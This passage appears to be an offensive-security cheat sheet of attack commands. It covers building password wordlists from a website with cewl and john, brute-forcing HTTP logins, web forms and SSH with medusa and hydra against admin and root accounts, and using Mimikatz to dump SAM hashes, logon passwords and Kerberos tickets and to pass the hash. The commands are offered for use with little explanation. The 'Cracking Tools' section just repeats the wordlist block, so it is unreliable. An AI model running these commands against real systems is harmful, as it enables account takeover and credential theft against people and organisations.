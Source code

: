 ### Wordlists <a name="wordlists"></a>  
```bash
# Create wordlist from website
cewl example.com -w words.txt -d 3
cewl example.com -w words.txt -H "Cookie:PHPSESSID=SESSID"

# Apply word mutations
john --wordlist=example_com_pwd.txt --rules --stdout > example_com_rules.txt
```

### Bruteforce Tools <a name="bruteforcetools"></a>
```bash
# HTTP Auth
medusa -h 10.1.1.1 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin-panel

# HTTP POST
hydra 10.1.1.1 http-form-post -l admin -P /usr/share/wordlists/rockyou.txt "/login.php:user=^USER^&password=^PASS^:Login failed" -f

# SSH
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.1.1.1 -f
```

### Mimikatz <a name="mimikatz"></a>
```bash
mimikatz # privilege::debug

# Retrieve SAM
mimikatz # token::elevate
mimikatz # lsadump::sam

# Retrieve logon passwords
mimikatz # sekurlsa::logonpasswords

# Retrieve tickets
mimikatz # sekurlsa::tickets

# Export kerberos tickets
kerberos::list /export

# Obtain kerberos ticket with NTLM hash
sekurlsa::pth /user:admin /domain:example.com /ntlm:NTLM_HASH /run:powershell.exe
```
### Cracking Tools <a name="crackingtools"></a>
```bash
# Create wordlist from website
cewl example.com -w words.txt -d 3
cewl example.com -w words.txt -H "Cookie:PHPSESSID=SESSID"

# Apply word mutations
john --wordlist=example_com_pwd.txt --rules --stdout > example_com_rules.txt
```
